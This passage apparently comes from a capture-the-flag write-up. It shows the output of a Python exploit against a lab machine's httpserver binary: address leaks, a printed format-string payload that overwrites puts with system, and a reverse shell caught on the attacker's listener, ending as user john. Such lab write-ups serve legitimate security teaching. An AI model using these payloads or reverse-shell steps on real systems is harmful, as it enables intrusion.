 ### Executing the exploit and getting a shell
```python
root@silence:~# python3 exploit.py
[*] '/root/httpserver'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled

    ______                                    _            _  _
    | ___ \                                  | |          | || |
    | |_/ / ___   _ __    ___   ______   ___ | |__    ___ | || |
    |    / / _ \ | '_ \  / _ \ |_user_| / __|| '_ \  / _ \| || |
    | |\ \| (_) || |_) ||  __/          \__ \| | | ||  __/| || |
    \_| \_|\___/ | .__/  \___|          |___/|_| |_| \___||_||_|
                 | |
    ______       |_| _____  _            _____         ____        _____
    | ___ \         /  __ \| |          / __  \       / ___|      /  _  \
    | |_/ / _   _   | /  \/| |__   _ __ | |/| |__  __/ /___   ___ | | | | ___
    | ___ \| | | |  | |    | '_ \ | '__|| |/| |\ \/ /| ___ \ / _ \| | | |/ __|
    | |_/ /| |_| |  | \__/\| | | || |   \ |_/ / >  < | \_/ ||  __/\ \_/ /\__ \
    \____/  \__, |   \____/|_| |_||_|    \___/ /_/\_\\_____/ \___| \___/ |___/
            __/  |
            |___/

[+] Opening connection to 10.10.10.148 on port 9999: Done

[*] Stage 1: Leaking addresses
[+] Leaked PIE base: 0x56605000
[+] Leaked libc base: 0xf7d5a000

[*] Stage 2: Calculating offsets
[+] Calculated offset for PUTS@GOT: 0x5660a048
[+] Calculated offset for SYSTEM@LIBC: 0xf7d96d10
[*] Closed connection to 10.10.10.148 port 9999

[*] Stage 3: Generating payload to overwrite puts with system
[+] Payload generated: b'%16c%65$hhn%93c%66$hhn%108c%67$hhn%30c%68$hhnaaaH\xa0`VI\xa0`VJ\xa0`VK\xa0`V'

[*] Stage 4: Sending payload and getting a reverse-shell
[+] Opening connection to 10.10.10.148 on port 9999: Done
[+] Trying to bind to 10.10.14.10 on port 9164: Done
[+] Waiting for connections on 10.10.14.10:9164: Got connection from 10.10.10.148 on port 37628
[*] Payload send!
[*] Closed connection to 10.10.10.148 port 9999

[*] Switching to interactive mode
uid=1001(john) gid=1001(john) groups=1001(john)
john@rope:/opt/www$
```
Running our exploit script, we get a shell as john.


[image]: https://made0x78.com/assets/images/bseries_ch6_stack.gif